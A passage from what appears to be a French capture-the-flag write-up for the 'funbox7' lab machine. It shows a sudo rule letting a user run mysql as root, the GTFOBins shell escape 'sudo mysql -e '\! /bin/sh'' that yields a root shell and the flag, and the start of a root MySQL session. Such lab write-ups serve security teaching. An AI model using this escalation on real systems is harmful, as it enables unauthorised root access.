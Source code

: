 ```console
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```

Il y a un GTFObin bien connu qui permet d'en finir :

```console
goat@funbox7:~$ sudo mysql -e '\! /bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
html.tar.gz  root.flag  script.sh
# cat root.flag
  █████▒ █    ██  ███▄    █  ▄▄▄▄    ▒█████  ▒██   ██▒                   
▓██   ▒  ██  ▓██▒ ██ ▀█   █ ▓█████▄ ▒██▒  ██▒▒▒ █ █ ▒░                   
▒████ ░ ▓██  ▒██░▓██  ▀█ ██▒▒██▒ ▄██▒██░  ██▒░░  █   ░                   
░▓█▒  ░ ▓▓█  ░██░▓██▒  ▐▌██▒▒██░█▀  ▒██   ██░ ░ █ █ ▒                    
░▒█░    ▒▒█████▓ ▒██░   ▓██░░▓█  ▀█▓░ ████▓▒░▒██▒ ▒██▒                   
 ▒ ░    ░▒▓▒ ▒ ▒ ░ ▒░   ▒ ▒ ░▒▓███▀▒░ ▒░▒░▒░ ▒▒ ░ ░▓ ░                   
 ░      ░░▒░ ░ ░ ░ ░░   ░ ▒░▒░▒   ░   ░ ▒ ▒░ ░░   ░▒ ░                   
 ░ ░     ░░░ ░ ░    ░   ░ ░  ░    ░ ░ ░ ░ ▒   ░    ░                     
           ░              ░  ░          ░ ░   ░    ░                     
                                  ░                                      
▓█████  ▄▄▄        ██████ ▓██   ██▓▓█████  ███▄    █  █    ██  ███▄ ▄███▓
▓█   ▀ ▒████▄    ▒██    ▒  ▒██  ██▒▓█   ▀  ██ ▀█   █  ██  ▓██▒▓██▒▀█▀ ██▒
▒███   ▒██  ▀█▄  ░ ▓██▄     ▒██ ██░▒███   ▓██  ▀█ ██▒▓██  ▒██░▓██    ▓██░
▒▓█  ▄ ░██▄▄▄▄██   ▒   ██▒  ░ ▐██▓░▒▓█  ▄ ▓██▒  ▐▌██▒▓▓█  ░██░▒██    ▒██ 
░▒████▒ ▓█   ▓██▒▒██████▒▒  ░ ██▒▓░░▒████▒▒██░   ▓██░▒▒█████▓ ▒██▒   ░██▒
░░ ▒░ ░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░   ██▒▒▒ ░░ ▒░ ░░ ▒░   ▒ ▒ ░▒▓▒ ▒ ▒ ░ ▒░   ░  ░
 ░ ░  ░  ▒   ▒▒ ░░ ░▒  ░ ░ ▓██ ░▒░  ░ ░  ░░ ░░   ░ ▒░░░▒░ ░ ░ ░  ░      ░
   ░     ░   ▒   ░  ░  ░   ▒ ▒ ░░     ░      ░   ░ ░  ░░░ ░ ░ ░      ░   
   ░  ░      ░  ░      ░   ░ ░        ░  ░         ░    ░            ░   
                           ░ ░                                           

...solved ! 

Please, tweet this screenshot to @0815R2d2. Many thanks in advance.
```

Additionnellement, on peut se connecter à MYSQL grâce à l'entrée sudo et retrouver un hash :

```console
goat@funbox7:~$ sudo mysql 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
```